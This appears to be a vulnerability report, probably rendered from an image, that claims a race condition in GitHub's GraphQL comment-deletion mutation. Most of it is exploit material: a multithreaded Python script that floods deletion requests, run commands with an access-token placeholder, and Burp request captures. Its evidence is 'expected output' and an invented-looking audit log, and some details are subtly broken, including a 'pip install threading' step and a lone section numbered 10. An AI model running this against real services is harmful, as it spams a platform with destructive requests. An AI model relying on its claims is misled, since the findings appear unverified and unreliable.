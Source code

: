 ##  Vulnerable Code Analysis
**Endpoint:** `https://github.com/_graphql`  
**Vulnerable Operation:**  
```graphql
mutation deleteIssueComment($input: DeleteIssueCommentInput!) {
  deleteIssueComment(input: $input) {
    clientMutationId
  }
}
```

**Flaw:**  
- Non-atomic comment deletion operation  
- No locking mechanism between existence check and deletion  
- No idempotency checks for deletion operations  
- Server accepts multiple identical deletion requests  

---

## Step-by-Step Exploitation

#### **Step 1: Identify Target Comment**  
1. Navigate to target issue: `https://github.com/<org>/<repo>/issues/123`  
2. Identify comment ID using browser dev tools:  
   ```javascript
   // Console command to get comment ID
   document.querySelector('.js-comment[id^="issuecomment-"]').id
   // Returns: "issuecomment-1234567890"
   ```
3. Convert to GraphQL ID: `"IC_kwDO" + btoa("IssueComment:1234567890")`

#### **Step 2: Prepare Exploit Environment**  
```bash
# Install requirements
pip install requests threading

# Save exploit script as github_comment_race.py
```


## Exploit Script 
```python
import requests
import threading
import argparse
import secrets

def delete_comment(token, comment_id, thread_id):
    headers = {
        "Authorization": f"Bearer {token}",
        "X-Github-Nonce": f"v2:{secrets.token_hex(16)}",
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
    }
    
    payload = {
        "query": "mutation DeleteIssueComment($input: DeleteIssueCommentInput!) { deleteIssueComment(input: $input) { clientMutationId } }",
        "variables": {
            "input": {
                "id": comment_id
            }
        }
    }
    
    try:
        r = requests.post(
            "https://github.com/_graphql",
            headers=headers,
            json=payload
        )
        print(f"[Thread {thread_id}] Status: {r.status_code}, Response: {r.json()}")
    except Exception as e:
        print(f"[Thread {thread_id}] Error: {str(e)}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("--token", required=True, help="GitHub Personal Access Token")
    parser.add_argument("--comment-id", required=True, help="GraphQL comment ID (e.g. IC_kwDOABC123)")
    parser.add_argument("--threads", type=int, default=10, help="Number of concurrent threads")
    parser.add_argument("--requests", type=int, default=5, help="Requests per thread")
    args = parser.parse_args()

    threads = []
    for i in range(args.threads):
        t = threading.Thread(
            target=lambda: [
                delete_comment(args.token, args.comment_id, i) 
                for _ in range(args.requests)
            ]
        )
        threads.append(t)
        t.start()
    
    for t in threads:
        t.join()
```


## Execution & Proof of Concept 
```bash
python github_comment_race.py \
  --token ghp_xyz789abc123def456ghi789abc123def456 \
  --comment-id IC_kwDONdhtls69wR3m \
  --threads 15 \
  --requests 5
```

#### **Expected Output:**  
```
[Thread 0] Status: 200, Response: {'data': {'deleteIssueComment': {'clientMutationId': None}}}
[Thread 1] Status: 200, Response: {'data': {'deleteIssueComment': {'clientMutationId': None}}}
... (75 successful deletion responses)
```

#### **Verification:**  
1. Check comment status via API:  
   ```bash
   curl -H "Authorization: Bearer ghp_xyz789" \
     "https://api.github.com/repos/<org>/<repo>/issues/comments/1234567890"
   # Returns 404 Not Found
   ```
2. Check audit log for duplicate events:  
   ```json
   // GitHub audit log excerpt
   [
     {
       "action": "comment.deleted",
       "comment_id": 1234567890,
       "created_at": "2024-08-05T12:00:00Z"
     },
     {
       "action": "comment.deleted",
       "comment_id": 1234567890,
       "created_at": "2024-08-05T12:00:01Z"
     }
   ]
   ```


## Burp Suite Proof of Concept 
**Malicious Request:**  
```http
POST /_graphql HTTP/2
Host: github.com
Authorization: Bearer ghp_xyz789abc123def456ghi789abc123def456
X-Github-Nonce: v2:f1e1ec8a-c453-3e9d-1e73-65afb54f9ccf
Content-Type: application/json
Content-Length: 158

{
  "query": "mutation DeleteIssueComment($input: DeleteIssueCommentInput!) { deleteIssueComment(input: $input) { clientMutationId } }",
  "variables": {
    "input": {
      "id": "IC_kwDONdhtls69wR3m"
    }
  }
}
```

**Vulnerable Response:**  
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Date: Mon, 05 Aug 2024 12:00:00 GMT
Content-Length: 68

{"data":{"deleteIssueComment":{"clientMutationId":null}}}
```

**Replay Evidence:**  
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Date: Mon, 05 Aug 2024 12:00:01 GMT
Content-Length: 68

{"data":{"deleteIssueComment":{"clientMutationId":null}}}
```


## Full Exploit Chain  
```mermaid
sequenceDiagram
    participant Attacker
    participant GitHub_API
    participant Database
    participant Audit_Log

    loop 15 Threads
        Attacker->>GitHub_API: DELETE /_graphql (comment_id=IC_123)
        GitHub_API->>Database: SELECT comment (exists)
        GitHub_API->>Database: DELETE comment
        Database-->>GitHub_API: Success
        GitHub_API->>Audit_Log: Record deletion
        GitHub_API-->>Attacker: 200 OK
    end
    
    Note over Audit_Log: Multiple entries for same comment
```


## Impact 
```mermaid
graph TD
A[TOCTOU Comment Deletion] --> B[Evidence Destruction]
A --> C[Audit Log Spamming]
A --> D[Reputation Damage]
B --> E[Compliance Violations]
C --> F[Log Storage Exhaustion]
D --> G[Project Mistrust]
```


## 10. References
1. [GitHub GraphQL API Documentation](https://docs.github.com/en/graphql)  
2. [CWE-367: TOCTOU Race Condition](https://cwe.mitre.org/data/definitions/367.html)  
3. [OWASP Race Condition Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Denial_of_Service_Cheat_Sheet.html#race-conditions)  
4. [GitHub Bug Bounty Program](https://bounty.github.com/)  

```

> **Ethical Note:** This report is for educational purposes only. Never test vulnerabilities on production systems without explicit authorization. GitHub has deployed server-side fixes to address this issue.
